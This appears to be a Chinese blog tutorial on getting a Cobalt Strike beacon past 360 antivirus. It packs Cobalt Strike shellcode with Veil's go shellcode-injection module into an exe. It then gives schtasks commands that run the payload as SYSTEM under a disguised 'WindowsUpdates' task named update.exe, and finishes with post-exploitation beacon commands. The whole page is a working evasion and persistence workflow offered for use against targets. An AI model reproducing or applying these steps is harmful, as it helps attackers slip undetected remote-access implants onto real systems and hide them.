



# Cobalt Strike beacon 免杀上线 [ Veil ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/25.html](http://book.iwonder.run/Tools/Cobalt Strike/25.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 第一步,创建监听器,生成 Veil 格式的 shellcode [ 关于 Veil 相信很多朋友都已经比较熟悉了,此处不多做介绍,大家可以直接去 github 里搜下,然后按步骤装上即可 ]


> 实际生成的 Shellcode 内容如下


> 紧接着,去启动 Veil [ 注: 此处的 Veil 是在我的另一台 kali 机器上 ], 选择 go shellcode 注入这个模块[ 之所以选 go,主要是因为它的免杀效果,相对于其它脚本稍好一点,顺便提醒一句,在安装 Veil 时最好先把系统挂上 vpn,防止某些包下不下来,导致整个安装过程出错,注意仔细观察安装过程,不然万一等装完,起不来都不知道是哪里的问题,非常简单,就不再多啰嗦了 ]

```
# ./Veil.py
Veil>: use 1
Veil/Evasion>: list
Veil/Evasion>: use 17 
```





> 上面的模块中不用做任何配置,全部保持默认,然后输入 "generate " ,此时选择"3 "[整篇文章最关键的地方也就在这里],自定义 shellcode,直接把我们之前用 CobaltStrike 生成好的那个 Veil shellcode 粘过来回车就行

```
[go/shellcode_inject/virtual>>]: generate 
```


> 之后,便会自动开始打包生成对应的 exe payload


> 此时,我们只需想办法把上面生成的 exe payload 丢到目标机器上,用系统计划任务直接弹回一个高权限的 beacon shell 即可

```
# schtasks /create /RL HIGHEST /F /ru "SYSTEM" /tn "WindowsUpdates" /tr "c:/Windows/Temp/update.exe" /sc DAILY /mo 1 /ST 00:15
# schtasks /run /tn "WindowsUpdates"
# schtasks /query | findstr "WindowsUpdates"
# schtasks /delete /F /tn "WindowsUpdates" 
```


> 最终,beacon shell 被正常弹回,如下

```
beacon> sleep 0
beacon> shell tasklist | findstr /c:"explorer.exe" /c:"360"
beacon> shell query user 
```



